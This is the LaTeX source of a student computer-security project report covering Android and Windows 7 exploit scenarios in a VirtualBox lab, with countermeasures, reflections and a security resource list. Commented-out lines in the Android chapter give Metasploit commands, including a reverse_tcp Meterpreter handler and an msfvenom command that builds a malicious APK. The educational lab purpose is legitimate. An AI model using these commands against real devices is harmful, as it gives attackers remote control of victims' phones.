%     \caption{The Android Emulator running}
% \end{figure}
% \section{Network setup in VirtualBox}
% Networking is a key aspect of what makes or breaks the exploits covered in further chapters. Therefore the following steps have to be taken so that an internal virtual network can created which will allow the virtual machines to communicate with each other effectively and without worrying about gateways and other network related issues that can pop up.\\\\
% Navigate to Oracle VirtualBox and click on \textbf{File -$>$ Preferences}. This is shown below.
% \begin{figure}[H]
%     \centering
%     \includegraphics[scale=0.8]{pics/net1.png}
% \end{figure}
% Navigate to the \texttt{Network} tab on the left hand side. Thereafter, click on the green plus icon the right to create a new \textbf{NatNetwork}. This is shown below.
% \begin{figure}[H]
%     \centering
%     \includegraphics[scale=1]{pics/net2.png}
% \end{figure}
% Click \textbf{OK} to save the settings. Now go to the settings for each of your virtual machines and under the \texttt{Network} tab select the newly created Nat Network as your Adapter. This is demonstrated below.
% \begin{figure}[H]
%     \centering
%     \includegraphics[scale=1]{pics/net3.png}
% \end{figure}
\section{Blog}
The blog we created was hosted on GitHub Pages. The link to the blog is:\\
\url{https://ITRI625.github.io}\\\\
More information on GitHub Pages can be found at: \url{https://pages.github.com/}\\\\
The template for the blog was acquired from:\\
\url{https://startbootstrap.com/theme/clean-blog}\\\\
GIFs on the Blog were sourced from \url{https://tenor.com/} and \url{https://giphy.com/}\\\\
Additionally, the screenshots taken were from VMs we implemented in VirtualBox and other images for the headers were sourced from Google Images.
\chapter{Scenario 1: Android exploit}
\label{sec:sec1}
\section{Overview \& Carrying out the exploit}
The scenario is described as follows:
\begin{displayquote}
\textit{A person (that will be known as the victim in further discussions), opens a SMS received on their mobile device. This SMS has a malicious link embedded in it, or has a link that redirects to a malicious site. The link automatically downloads and runs an Android application package also known in other terms as an APK file. This APK file is what the Android Operating System uses to install applications. This malicious Application, once installed gives the Hacker (known as a perpetrator in an attack) full control over the device to outside parties, including the perpetrator. From here on out, the perpetrator has the victim in the palm of their hands, and can do what every they like to the device as well as carry out further attacks against the victim.}
\end{displayquote}
The following resources were cited during this process.\cite{nmap, hypr, sdo, os1, zain, comm, meter}
\\\\
For further details have a look at our "Exploit 1" blog page for this exploit. It is located at the following link:\\
\url{https://ITRI625.github.io/post1.html}
The following basic procedures/steps were followed:
\begin{enumerate}
    \item Install Oracle VirtualBox
    \item Load Kali Linux image into VirtualBox
    \item Load vulnerable Android x86\_64 image into VirtualBox
    \item Carry out the exploit
    \item Carry out post exploitation
\end{enumerate}
% Firstly, we should see if the Android VM is listed on our current NAT Network. For this run the following command shown below:
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% ]
% {Shell}
% nmap -sS
% \end{minted}
% \texttt{nmap} is a Security Scanner that allows us to scan networks with different options. The flags denoted by \texttt{-sS} are the most common and initiate a stealthier scan of the network.\cite{nmap}

% Thereafter 
% Open up the Metasploit console in Kali Linux by running the following command below:
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% msfconsole
% \end{minted}
% Thereafter run the following:
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% use exploit/multi/handler
% \end{minted}
% The Multi Handler command launches a stub that runs outside the Framework. This command launches a payload that is specific to our specification.\cite{os1}
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% search android/meterpreter
% \end{minted}
% Meterpreter is a tool that is part of the Metasploit Framework which allows you to take advantage of as well as find vulnerabilities in a system. This penetration testing tool can easily take hold of victim's resources as needed. Meterpreter utilises an in-memory injection which writes nothing to disk. This allows for the exploit to run without being detected by normal means. A new process is not created, rather it injects itself into a compromised process. For this reason also the forensic footprint left behind by the Meterpreter is limited.\cite{hypr, sdo}
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% set payload android/meterpreter/reverse_tcp
% \end{minted}
% When the host initiates a connection, that is called a \textit{forward connection}. However, when the opposite is done, a server initiates the connection to a host, then it is called a reverse connection.
% Firewalls work on the basic principle of blocking all incoming connection. So all incoming connections (reverse connections) are blocked by the firewall. However, if a host initiates a connection (forward connection) it is allowed and the return for the connection initiated by the host will be permitted.
% Reverse\_tcp is basically instead of the attacker initiating the connection which will obviously blocked by the firewall instead, the device initiates the connection to the attacker, which will be allowed by the firewall and the attacker then take control of the device and pass commands. It is a type of reverse shell.\cite{zain}
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% show options
% \end{minted}
% The above command shows the current options for the payload. These can then be changed as shown below.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% set LHOST <ip_address>
% \end{minted}
% The above command sets the IP address that will become a \textit{Listener}, in other words which IP address all the communication from the victim will be forwarded to.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% set LPORT <port_number>
% \end{minted}
% The above command changes the option of which port the \textit{Listener} should receive information. This is usually an open port that is not being used by any other process or service.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% exploit
% \end{minted}
% This aforementioned command begins the exploit and the \textit{Listener} will listen to any incoming responses from the victim. This is usually after the victim installs the malicious APK file and opens it. This is discussed further with the command listed below.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% ]
% {Shell}
% msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 R > /var/www/html/share/filename.apk
% \end{minted}
% A comprehensive list of commands for post-exploitation can be found in Metasploit's official documentation. These are shown below.\cite{comm}
% \inputminted[
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% ]{Text}{commands.txt}
\section{Countermeasures}
The following advice can be given to users to prevent this type of exploit on their Android devices.
\begin{itemize}
    \item Do not use open Wi-Fi networks.
    \item Disable the \texttt{"Install Apps from Unknown sources"} option in your device settings.
    \item Only install verified applications from the Google Play store or other trusted stores such as F-Droid.
    \item Do not open files that are sent to you from unknown parties.
    \item Install and keep updated an Anti-Malware tool on your device.
    \item Install and keep updated an Anti-Virus software on your device.
    \item If possible, pay for a VPN service for your device.
    \item Do not carry out sensitive processes on your device if it is not secured or you do not have a VPN.
    \item Do not open any correspondence you receive on your device that is from an unknown party.
    \item Keep you device updated at all times, especially security updates/patches.
    \item Keep your applications on your device updated at all times and if possible disable auto-updates. This will allow you to keep track of what is updated and when.
    \item Delete any application on your device if you have not used it in the past month (This excludes your built-in applications).
    \item Disable Background processes (for applications) on your device.
\end{itemize}
\chapter{Scenario 2: Windows exploit}
\section{Overview \& Carrying out the exploit}
The scenario is described as follows:
\begin{displayquote}
\textit{Windows 7 had all support for the operating system halted in January of 2020. Windows 7 was certainly a user favourite and the end of support saw quite a few users disgruntledly switch to either Windows 8 or 10 to continue to get security focused support and patches. At this point, the support for windows 7 has been defunct for almost 2 years and as such many new exploits have likely surfaced. Nonetheless, even before Windows 7 met its end-of-life there were still many exploits that could be performed on the system that were sequentially fixed in the new versions of Windows. One such vulnerability present in Windows 7 is that the default version of Windows Media Centre will execute any code saved as a ".mcl" file.}
\end{displayquote}
For further details have a look at our "Exploit 2" blog page for this exploit. It is located at the following link:\\
\url{https://ITRI625.github.io/post2.html}
\\\\
The following basic procedures/steps were followed:
\begin{enumerate}
    \item Install Oracle VirtualBox
    \item Load Kali Linux image into VirtualBox
    \item Load vulnerable Windows 7 image into VirtualBox
    \item Carry out the exploit
    \item Carry out post exploitation
\end{enumerate}
\section{Countermeasures}
The most useful countermeasure to this, and typically, any security related vulnerability is user vigilance. A user should be aware of what files, services, websites, etc. should typically look like in their daily usage a computer system and, as such, should be able to identify when one of these, and in this case a file, looks suspicious and should be scanned via some program before using or opening it.
\\\\
Furthermore, it is also important since this exploit made use of a .mcl and .exe file that a user makes use of some form of antivirus or antimalware software and in this particular case, ones that are signature based. The reasoning for this is because the executable in this scenario is one that has been created and is typically used in a large scale. 
\\\\
It is also vital to understand the exploits you are vulnerable to. In the tutorial we demonstrated that the file could be run and Windows only alerts that it comes from an untrusted, meaning un-certified, source which nowadays is something that happens with most applications as the typically programmer does not have access to particular licencing on their applications. In this case, having a more rigorous firewall or settings for it may have restricted the reverse\_tcp from functioning.
\\\\
Apart from this, the main fix to this particular issue was to install a patch provided by Microsoft on their site, and as such having some sort of patch management system is also vital to users. This could be simply regularly checking each application download page for the newest version or patch. However, there are applications and programs that automate this process and keep all your programs up to date. It should also be noted that most programs tend to offer a "Check for updates" feature when installing the program and likely also in the settings after the fact. 
\chapter{Closing remarks}
\section{Reflection \& Work Consensus}
The group for this project consisted of 2 members namely:
\begin{itemize}
    \item Affaan Muhammad - 33016763
    \item Joshua Esterhuizen - 30285976
\end{itemize}
Below is our reflection that was carried out after the completion of the project.\\\\
\textbf{Reflection}\\\\
Joshua Esterhuizen had the following to say:
\begin{displayquote}
\textit{Working on this project has taught me several different things both within and outside of computer security. The most notable to me personally would be the fact that GitHub allows each user to create and then host a single static website. This is what was used to host the blog section of this project but will also be used by me in a personal capacity for a personal website in future. 
\\\\
Apart from this, seeing the sheer amount of exploits that Metasploit has available to use is a bit disconcerting as it covers a wide array of different machines, programs and means of execution and has definitely made me that much more critical of everything I do online. 
\\\\
This project also allowed me the chance to learn how to use HTML and CSS when writing the blog, which also forced me to switch up my usual writing style for one that is more colloquial for the general public instead of assuming the people reading the writing are already knowledgeable on the topics. 
}
\end{displayquote}
\pagebreak
Affaan Muhammad had the following to say:
\begin{displayquote}
\textit{The Computer Security II module (ITRI625) was an enjoyable experience overall. The practical aspects were an added bonus which helped strengthen the theoretical knowledge that was learned during the year.
\\\\
Additionally it was also enjoyable to once again delve into details of Operating Systems, as well as Computer Networking which was done in the final year of our undergraduate degree. So in essence during the Honours year we built upon the foundations laid in the undergrad years.
\\\\
It was tremendous fun to once again do Web Development and implementing static pages using GitHub Pages.
\\\\
A few mishaps that have to be mentioned is the tricky work-around that was done to implement NAT Networks to allow communication between virtual environments. Any other issues that came up were solved as soon as possible and being able to navigate and sift through error was key to the success for this project.
\\\\
Using the Kali Linux operating system, the command line, debugging, and scripting was enjoyable as always and helped in adding to our knowledge base.
\\\\
Additionally, good time management and excellent communication was vital to the added success of this project.}
\end{displayquote}
\textbf{Work Consensus}\\\\
All members in the group contributed to this project and a 50/50 balance between work allocation was kept. Below is a table showing how the work was divided in this project amongst the 2 members i.e. Affaan \& Joshua
\begin{table}[H]
\centering
\begin{tabular}{@{}ll@{}}
\toprule
\multicolumn{1}{c}{Affaan}   & \multicolumn{1}{c}{Joshua}         \\ \midrule
Scenario 1     & Scenario 2             \\
Blog & Blog            \\
Testing                      & Testing                            \\
Bug fixes                    & Bug fixes                          \\
Proofreading                        & Proofreading                              \\
Documentation                & Metasploit Literature Review \\ \bottomrule
\end{tabular}
\end{table}
\chapter{Additional readings and miscellaneous information}
CitizenLab located in Toronto, Canada is responsible for actively testing new threats, and exploits. Their site is located at the following url:\\
\url{https://citizenlab.ca/}\\
You can find additional information and news of current events in the cyber security space.\\\\
Heimdal Security headquartered in Denmark are a company which creates different suites for your cyber security needs. They also offer interesting resources such as whitepapers, articles, blogs, data sheets, case studies etc. Their site is located at the following url:\\
\url{https://heimdalsecurity.com/}\\\\
Additionally, an extensive list of cyber security resources can be found at:\\
\url{https://www.cyberdegrees.org/resources/the-big-list/}\\
They include the following:
\section{News and Opinions}
\begin{multicols}{2}
\begin{itemize}
\item \href{https://arstechnica.com/tag/security/}{Ars Technica – Risk Assessment}
\item \href{https://www.cio.com/category/security/}{CIO Security}
\item \href{https://www.csoonline.com/}{CSO Online}
\item \href{http://www.darkreading.com/}{Dark Reading}
\item \href{https://www.theguardian.com/media-network/information-security}{Guardian Information Security Hub}
\item \href{http://www.homelandsecuritynewswire.com/topics/cybersecurity}{Homeland Security News Wire – Cybersecurity}
\item \href{https://www.infosecurity-magazine.com/}{Infosecurity Magazine}
\item \href{https://nakedsecurity.sophos.com/}{Naked Security}
\item \href{https://www.scmagazine.com/}{SC Magazine}
\item \href{https://securelist.com/}{SecureList}
\item \href{http://securitywatch.pcmag.com/}{SecurityWatch}
\item \href{https://www.wired.com/category/threatlevel/}{Threat Level}
\item \href{https://threatpost.com/}{ThreatPost}
\end{itemize}
\end{multicols}
\section{Blogs}
\begin{multicols}{2}
\begin{itemize}
\item \href{https://security.googleblog.com/}{Google Online Security Blog}
\item \href{https://resources.infosecinstitute.com/}{InfoSec Resources}
\item \href{https://krebsonsecurity.com/}{Krebs on Security}
\item \href{https://www.microsoft.com/security/blog/product/windows/}{Microsoft Malware Protection Center Blog}
\item \href{https://www.schneier.com/}{Schneier on Security}
\item \href{https://securityboulevard.com/feed/}{Security Bloggers Network}
\item \href{https://terebrate.blogspot.com/}{Terebrate}
\item \href{https://blog.threattrack.com/}{Threat Track Security Labs Blog}
\item \href{https://www.veracode.com/blog}{Veracode Blog}
\item \href{https://www.zdnet.com/blog/security/}{Zero Day Blog}
\end{itemize}
\end{multicols}
\section{Other useful websites}
\begin{multicols}{2}
\begin{itemize}
\item \href{https://www.utrgv.edu/utpa\_main/daa\_home/coecs\_home/cstem}{UTPA Center of Excellence in STEM Education}
\item \href{https://www.cerias.purdue.edu/site/tools\_and\_resources/}{CERIAS: Tools and Resources}
\item \href{https://cve.mitre.org/index.html}{CVE: Common Vulnerabilities and Exposures}
\item \href{https://security.stackexchange.com/}{Information Security Stack Exchange}
\item \href{http://www.infotectraining.com/}{Infotec Pro}
\item \href{https://isc.sans.edu/}{ISC: Internet Storm Center}
\item \href{https://www.nsa.gov/resources/students-educators/centers-academic-excellence/}{National Centers of Academic Excellence (CAE) in Information Assurance (IA)/Cyber Defense (CD)}
\item \href{https://oval.mitre.org/}{OVAL: Open Vulnerability and Assessment Language}
\item \href{https://niccs.us-cert.gov/}{Scholarship Opportunities}
\item \href{https://www.us-cert.gov/}{US-CERT}
\item \href{https://www.dhs.gov/topic/cybersecurity}{U.S. Department of Homeland Security – Cybersecurity}
\end{itemize}
\end{multicols}
\section{Organisations}
\begin{multicols}{2}
\begin{itemize}
\item \href{http://www.sigsac.org/}{ACM SIGSAC: Special Interest Group on Security, Audit and Control}
\item \href{https://www.asisonline.org/}{ASIS International}
\item \href{https://cloudsecurityalliance.org/}{CSA: Cloud Security Alliance}
\item \href{https://www.dc3.mil/}{DC3: Defense Cyber Crime Center}
\item \href{https://htcia.org/}{HTCIA: High Technology Crime Investigation Association}
\item \href{https://www.securityforum.org/}{ISF: Information Security Forum}
\item \href{https://www.issa.org/default.aspx}{ISSA: Information Systems Security Association}
\item \href{https://niccs.us-cert.gov/}{NICCS: National Initiative for Cybersecurity Careers and Studies}
\item \href{https://www.nsi.org/}{NSI: National Security Institute}
\item \href{https://www.nw3c.org/}{NW3C: National White Collar Crime Center}
\item \href{https://www.owasp.org/index.php/Main_Page}{OWASP: Open Web Application Security Project}
\item \href{https://www.sans.org/}{SANS}
\item \href{https://cps-vo.org/group/SoS}{Science of Security Virtual Organization}
\end{itemize}
\end{multicols}
\section{Training}
\begin{multicols}{2}
\begin{itemize}
\item \href{http://www.dvwa.co.uk/}{Damn Vulnerable Web Application (DVWA)}
\item \href{https://www.evolvesecurity.io/academy/home}{Evolve Security Academy}
\item \href{https://www.hackthissite.org/}{HackThisSite (HTS)}
\item \href{https://metasploit.help.rapid7.com/docs/metasploitable-2-exploitability-guide}{Metasploitable}
\item \href{https://www.irongeek.com/i.php?page=mutillidae/mutillidae-deliberately-vulnerable-php-owasp-top-10}{Mutillidae}
\item \href{http://overthewire.org/wargames/natas/}{NATAS}
\item \href{https://www.nibs.org/default.aspx}{National Institute of Building Sciences}
\item \href{https://secureset.com/}{SecureSet}
\item \href{https://www.slavehack2.com/}{SlaveHack}
\end{itemize}
\end{multicols}
\section{Security Groups}
\begin{multicols}{2}
\begin{itemize}
\item \href{https://www.afcea.org/membership/chapters/search.jsp}{AFCEA Chapters}
\item \href{https://cloudsecurityalliance.org/chapters/global/}{CSA Chapters}
\item \href{https://mga.ieee.org/resources-operations/geographic-unit/chapters}{IEEE Technical Chapters}
\item \href{https://www.infragard.org/Application/General/ChapterList}{InfraGard Local Chapters}
\item \href{https://www.isaca.org/Membership/Local-Chapter-Information/Pages/default.aspx}{ISACA Local Chapters}
\item \href{https://www.isc2.org/Chapters}{(ISC)$^{2}$ Chapter Program}
\item \href{https://www.issa.org/general/custom.asp?page=chapter_main}{ISSA Chapter Directory}
\item \href{https://www.owasp.org/index.php/OWASP_Chapter}{OWASP Chapters Program}
\end{itemize}
\end{multicols}
\section{Contests and Competitions}
\begin{multicols}{2}
\begin{itemize}
\item \href{https://csaw.engineering.nyu.edu/}{CSAW Capture the Flag (CTF)}
\item \href{https://www.defcon.org/html/defcon-15/dc-15-contests.html}{DEF CON Contests}
\item \href{https://csaw.engineering.nyu.edu/esc}{ESC: Embedded Security Challenge}
\item \href{http://www.nationalccdc.org/}{NCCDC: National Collegiate Cyber Defense Competition}
\item \href{https://www.nationalcyberleague.org/}{NCL: National Cyber League}
\item \href{http://cyberpanoply.com/}{Panoply}
\item \href{https://picoctf.com/}{Pitcoctf}
\item \href{https://en.wikipedia.org/wiki/Pwn2Own}{Pwn2Own}
\item \href{https://www.chromium.org/Home/chromium-security}{Pwnium}
\item \href{https://www.sans.org/netwars}{SANS NetWars}
\item \href{https://www.uscyberchallenge.org/}{U.S. Cyber Challenge}
\end{itemize}
\end{multicols}
\section{Conferences}
\begin{multicols}{2}
\begin{itemize}
\item \href{http://www.sigsac.org/ccs/}{ACM CCS: ACM Conference on Computer and Communications Security}
\item \href{https://www.acsac.org/}{ACSAC: Annual Computer Security Applications Conference}
\item \href{https://www.iacr.org/conferences/}{Asiacrypt/Crypto/Eurocrypt}
\item \href{https://www.blackhat.com/}{Black Hat}
\item \href{http://www.securitybsides.com/w/page/12194156/FrontPage}{BSides}
\item \href{https://cansecwest.com/}{CanSecWest}
\item \href{https://csaw.isis.poly.edu/}{CSAW: Cyber Security Awareness Week Conference}
\item \href{https://www.deepsec.net/}{DeepSec}
\item \href{https://www.defcon.org/index.html}{DEF CON}
\item \href{https://www.derbycon.com/}{DerbyCon}
\item \href{https://2018.hack.lu/}{Hack.lu}
\item \href{https://www.hackerhalted.com/}{Hacker Halted}
\item \href{http://thehackersconference.com/}{The Hackers Conference}
\item \href{http://2015.hackitoergosum.org/}{Hackito Ergo Sum}
\item \href{https://conference.hitb.org/}{HITBSecConf: Hack In The Box Security Conference}
\item \href{https://icmconference.org/}{ICMC: International Cryptographic Module Conference}
\item \href{https://www.ieee-security.org/}{IEEE Symposium on Security and Privacy}
\item \href{https://www.ndss-symposium.org/}{NDSS (Network and Distributed System Security) Symposium}
\item \href{https://www.nspw.org/}{NSPW: New Security Paradigms Workshop}
\item \href{https://nullcon.net/website/}{Nullcon}
\item \href{https://www.rsaconference.com/}{RSA Security Conference}
\item \href{https://www.sans.org/information-security-training/by-location/north-america}{SANS CDI: Cyber Defense Initiative}
\item \href{https://www.digitalbond.com/s4/}{S4: SCADA Security Scientific Symposium}
\item \href{https://secure360.org/}{Secure 360}
\item \href{https://www.secureworldexpo.com/}{SecureWorld Expo}
\item \href{https://www.shmoocon.org/}{ShmooCon}
\item \href{http://www.sinconf.org/sin2019/index.html}{SIN: International Conference on Security of Information and Networks}
\item \href{https://sourceconference.com/}{SOURCE Conference}
\item \href{https://www.swisscyberstorm.com/}{Swiss Cyber Storm}
\item \href{https://thotcon.org/}{Thotcon}
\item \href{https://troopers.de/}{TROOPERS IT Security Conference}
\item \href{https://www.usenix.org/conferences/byname/108}{USENIX Security Symposium}
\item \href{https://www.virusbulletin.com/conference/vb2019/}{VB: Virus Bulletin Conference}
\end{itemize}
\end{multicols}
\printbibliography[heading=bibintoc]
\end{document}